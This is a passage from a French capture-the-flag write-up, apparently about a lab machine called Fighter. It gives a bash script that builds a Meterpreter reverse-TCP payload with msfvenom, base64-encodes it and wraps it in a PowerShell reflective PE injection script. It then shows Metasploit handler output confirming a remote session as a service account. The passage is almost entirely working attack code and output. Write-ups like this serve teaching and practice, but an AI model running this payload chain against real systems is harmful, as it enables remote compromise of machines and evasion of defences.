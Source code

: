 J'ai écrit le script bash suivant pour générer le PS1 :  

```bash
#!/bin/bash
IP=$(ip -o -4 addr list tun0 | awk '{print $4}' | cut -d/ -f1)
mkdir -p /tmp/jail
echo "Creating reverse shell for IP $IP..."
msfvenom -p windows/meterpreter/reverse_tcp_rc4 LHOST=$IP LPORT=443 RC4PASSWORD=fuckit -f exe -o /tmp/jail/reverse_met.exe
base64 -w 0 /tmp/jail/reverse_met.exe > /tmp/jail/reverse_met.b64

echo "Putting base64 in powershell script"
echo -n '$InputString = "' > /tmp/jail/reflection.ps1
cat /tmp/jail/reverse_met.b64 >> /tmp/jail/reflection.ps1
echo '"' >> /tmp/jail/reflection.ps1

echo "Appending Invoke-ReflectivePEInjection"
cat Invoke-ReflectivePEInjection.ps1 >> /tmp/jail/reflection.ps1
echo >> /tmp/jail/reflection.ps1
echo >> /tmp/jail/reflection.ps1

echo "Appending Invoke call"
echo '$PEBytes = [System.Convert]::FromBase64String($InputString)' >> /tmp/jail/reflection.ps1
echo 'Start-Sleep -s 20' >> /tmp/jail/reflection.ps1
echo 'Invoke-ReflectivePEInjection -PEBytes $PEBytes' >> /tmp/jail/reflection.ps1
echo 'Start-Sleep -s 600' >> /tmp/jail/reflection.ps1
mv /tmp/jail/reflection.ps1 /tmp/jail/REFLECTION.PS1
```

Les 20 secondes d'attente dans le script nous laissent le temps de stopper le serveur web une fois le script Powershell téléchargé par la cible et de lancer le handler Metasploit.  

Et ça marche :  

```plain
[*] Started reverse TCP handler on 10.10.15.59:443
msf exploit(multi/handler) > [*] Sending stage (179783 bytes) to 10.10.10.72
[*] Meterpreter session 1 opened (10.10.15.59:443 -> 10.10.10.72:49172) at 2018-08-18 14:34:27 +0200

msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: FIGHTER\sqlserv
meterpreter > sysinfo
Computer        : FIGHTER
OS              : Windows 2012 R2 (Build 9600).
Architecture    : x64
System Language : it_IT
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

